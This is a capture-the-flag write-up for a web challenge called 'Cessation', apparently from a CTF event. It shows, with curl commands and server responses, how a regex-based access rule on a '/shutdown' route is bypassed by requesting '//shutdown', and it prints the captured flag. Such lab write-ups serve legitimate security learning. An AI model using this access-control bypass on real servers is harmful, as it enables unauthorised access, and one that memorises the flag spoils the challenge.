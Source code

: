 # Cessation

## Challenge

We need to reach the `/shutdown` route, however, it is mapped to an Access Denied page using `regex_map`.

```
curl http://178.62.14.240:32090/
```

```html
<div class="greeting-card">
    <h2>Its time to end!!<br/>Device Status: Online</h2>
</div>
```

```
curl http://178.62.14.240:32090/shutdown
```

```html
<div class="greeting-card">
    <h2>Access Denied..</h2>
</div>
```

## Solution

Regex expressions in `regex_map` do not match `/` characters as these are special in paths.

Multiple consecutive `/` characters are ignored in urls.
Therefore, we can access the `/shutdown` path by requesting the `//shutdown` path.

```
curl http://178.62.14.240:32090//shutdown
```

```html
<div class="greeting-card">
    <h2>Initiating Network Shutdown...<br/>Device Status: Offline<br/>CHTB{c3ss4t10n_n33d_sync1ng_#@$?}</h2>
</div>
```

## Flag

`CHTB{c3ss4t10n_n33d_sync1ng_#@$?}`

